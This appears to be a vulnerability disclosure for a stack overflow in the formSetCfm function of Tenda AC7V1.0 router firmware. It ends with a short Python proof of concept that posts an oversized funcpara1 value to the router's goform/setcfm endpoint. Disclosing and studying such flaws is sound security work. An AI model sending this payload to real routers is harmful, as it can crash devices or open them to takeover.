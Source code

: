 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

In the Tenda AC7V1.0 V15.03.06.44 has a stack overflow vulnerability located in the `formSetCfm` function. This function accepts the `funcpara1` parameter from a POST request and passes it to the `save_list_data` function. Within `save_list_data`, the array `s` is fixed at 64 bytes. However, since the user has control over the input of `funcpara1`, the statement `sprintf(mib_name, "%s.list%d", list_name, counta);` leads to a buffer overflow. The user-supplied `funcpara1` can exceed the capacity of the `mib_name` array, thus triggering this security vulnerability.

![image-20240318160040332](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318160040332.png)

![image-20240318160103975](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318160103975.png)

![image-20240318160147969](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318160147969.png)

## POC

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.84.101/'

# Send payload
url = url_base + 'goform/setcfm'
data = {
        'funcname': 'save_list_data', 
        'funcpara1': b'a'*0x500, 
        'funcpara2':'aaaaaa'
}

res = re.post(url, data=data)
```

![image-20240318160321131](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318160321131.png)